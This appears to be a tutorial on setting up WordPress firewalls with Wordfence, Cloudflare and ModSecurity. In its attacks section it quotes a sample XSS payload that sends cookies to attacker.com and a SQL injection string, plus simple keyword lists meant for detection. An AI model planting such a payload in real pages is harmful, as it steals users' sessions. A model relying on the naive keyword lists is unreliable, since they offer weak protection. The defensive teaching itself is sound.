

# WordPress Firewall Protection

## Introduction

Website security is a critical concern for any WordPress site owner. With WordPress powering over 40% of all websites on the internet, it has become a prime target for hackers and malicious actors. One of the most effective ways to protect your WordPress site from these threats is by implementing a firewall.

A WordPress firewall acts as a security barrier between your website and potential threats, filtering incoming traffic and blocking malicious requests before they can reach your site. This guide will help you understand what WordPress firewalls are, how they work, and how to implement them on your site.

## What is a WordPress Firewall?

A WordPress firewall is a security system that monitors and controls incoming and outgoing network traffic based on predetermined security rules. It establishes a barrier between your trusted internal network and untrusted external networks (like the internet).

There are two main types of WordPress firewalls:

1. **Plugin-based firewalls**: These operate at the application level and are installed directly on your WordPress site.
2. **DNS/Cloud-based firewalls**: These operate at the network level and filter traffic before it reaches your server.



## How WordPress Firewalls Work

WordPress firewalls use various techniques to protect your site:

1. **IP Blocking**: Blocks traffic from suspicious IP addresses or regions known for malicious activities.
2. **Rate Limiting**: Prevents brute force attacks by limiting login attempts.
3. **Request Filtering**: Examines HTTP requests for suspicious patterns.
4. **Malware Scanning**: Scans files for malicious code.
5. **Real-time Threat Defense**: Protects against zero-day vulnerabilities.

## Implementing a WordPress Firewall

Let's explore different methods to add firewall protection to your WordPress site:

### Method 1: Using Security Plugins

Several WordPress security plugins offer firewall functionality. Here's how to set up one of the most popular options, Wordfence:

1. **Install and activate the plugin**:

```php
// This can be done through the WordPress admin panel:
// Dashboard > Plugins > Add New > Search for "Wordfence Security"
```

2. **Configure basic settings**:

```php
// Once installed, go to:
// Wordfence > Firewall
// Enable "Web Application Firewall" option
```

3. **Set up firewall rules**:

```php
// Go to Wordfence > Firewall > Firewall Rules
// Enable "Brute Force Protection"
// Set login security options like:
$max_login_attempts = 5;  // Block after 5 failed attempts
$lockout_duration = 60;   // Lock for 60 minutes
```

### Method 2: Implementing a Web Application Firewall (WAF)

A WAF provides more comprehensive protection. Cloudflare is a popular option:

1. **Sign up for Cloudflare**
2. **Add your website to Cloudflare**
3. **Update your domain nameservers** to point to Cloudflare
4. **Configure security settings**:

```php
// In Cloudflare dashboard:
// Security > WAF > Set security level to "Medium" or "High"
// Enable "Browser Integrity Check"
// Configure "Rate Limiting" rules
```

### Method 3: Server-Level Firewall Configuration

If you have server access, you can configure server-level firewalls like ModSecurity:

```bash
# Install ModSecurity on Apache
sudo apt-get update
sudo apt-get install libapache2-mod-security2
sudo a2enmod security2
sudo systemctl restart apache2

# Configure basic rules
sudo cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
sudo nano /etc/modsecurity/modsecurity.conf

# Change SecRuleEngine from DetectionOnly to On
# SecRuleEngine On
```

## Best Practices for WordPress Firewall Configuration

To maximize your security with a WordPress firewall, follow these best practices:

### 1. Block Common Attack Patterns

Configure your firewall to block common WordPress attack patterns:

```php
// Block attempts to access wp-config.php
// Block PHP execution in wp-content/uploads
// Block direct access to plugin and theme PHP files
```

### 2. Use Geoblocking if Appropriate

If your website doesn't need global access, consider blocking traffic from countries where you don't have a target audience:

```php
// In Wordfence: Firewall > Country Blocking
// Select countries to block
$blocked_countries = ['Country1', 'Country2'];
```

### 3. Configure Rate Limiting

Prevent brute force attacks by limiting request rates:

```php
// Example Wordfence rate limiting rule
$max_requests_per_minute = 240;  // Block IPs making more than 240 requests per minute
$crawl_rate = 60;  // Limit crawlers to 60 requests per minute
```

### 4. Real-World Example: Protecting a WordPress Contact Form

Contact forms are common entry points for attackers. Here's how to protect them:

```php
// Add CAPTCHA verification
// In Contact Form 7 or similar form plugins

// Add firewall rule to detect form spam patterns
$suspicious_patterns = ['viagra', 'casino', 'loan', 'specific_spam_words'];

// Configure your firewall to block submissions containing these patterns
```

### 5. Monitor Firewall Logs

Regularly check firewall logs to understand attack patterns and adjust your protection:

```php
// In Wordfence: Tools > Live Traffic
// Review blocked requests and false positives

// Adjust rules if legitimate traffic is being blocked
```

## Common WordPress Attacks and Firewall Defenses

Let's look at specific attacks and how firewalls mitigate them:

### SQL Injection Attacks

These attacks attempt to inject malicious SQL code into your database queries.

```php
// Attack example:
// A form input with: username' OR 1=1 --

// Firewall defense:
$suspicious_sql_patterns = ["'", "OR 1=1", "--", "UNION SELECT", "DROP TABLE"];
// Configure firewall to block requests containing these patterns
```

### Cross-Site Scripting (XSS) Attacks

These attacks inject malicious scripts into web pages viewed by other users.

```php
// Attack example:
// A comment with: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Firewall defense:
$xss_patterns = ["<script>", "javascript:", "onerror=", "onload="];
// Configure firewall to sanitize or block content containing these patterns
```

## Troubleshooting Firewall Issues

Sometimes firewalls can cause legitimate functionality to break. Here's how to troubleshoot:

1. **Check for blocked legitimate traffic**:

```php
// Review firewall logs for false positives
// Temporarily disable specific rules to identify the problematic one
```

2. **Whitelist necessary functionality**:

```php
// Example: Allowing specific API endpoints
$whitelisted_ips = ['123.456.789.0', '987.654.321.0'];
$whitelisted_paths = ['/wp-json/specific-api/v1/endpoint'];

// Configure your firewall to allow these specific patterns
```

3. **Test in Safe Mode**:

```php
// Many firewall plugins offer a "Learning Mode" or "Safe Mode"
// Enable this temporarily when making significant site changes
```

## Summary

A properly configured WordPress firewall is an essential component of your website security strategy. It provides protection against common attacks and helps prevent unauthorized access to your site.

Key points to remember:

1. WordPress firewalls can be implemented at both the application level (plugins) and network level (WAF/DNS).
2. Firewall protection should include IP blocking, rate limiting, and request filtering.
3. Regular monitoring and maintenance of your firewall rules is essential.
4. A firewall works best as part of a comprehensive security approach that includes regular updates, strong passwords, and security best practices.

By following the guidance in this tutorial, you'll significantly enhance the security posture of your WordPress website against common threats and attacks.

## Additional Resources and Exercises

### Resources

1. [WordPress Security Documentation](https://wordpress.org/support/article/hardening-wordpress/)
2. [OWASP Web Application Firewall Guide](https://owasp.org/www-community/Web_Application_Firewall)
3. [Wordfence Documentation](https://www.wordfence.com/help/)

### Exercises

1. **Basic Implementation**: Install a security plugin with firewall capabilities and enable its basic protection features.

2. **Advanced Configuration**: Create custom firewall rules to block specific attack patterns targeting your site.

3. **Firewall Audit**: Review your firewall logs for the past week. Identify the most common attack patterns and adjust your protection accordingly.

4. **Security Testing**: With your firewall enabled, use a basic security scanning tool to test if common vulnerabilities are properly protected. Note: Only test on sites you own or have permission to test.

By completing these exercises, you'll gain practical experience in configuring and maintaining WordPress firewall protection for your sites.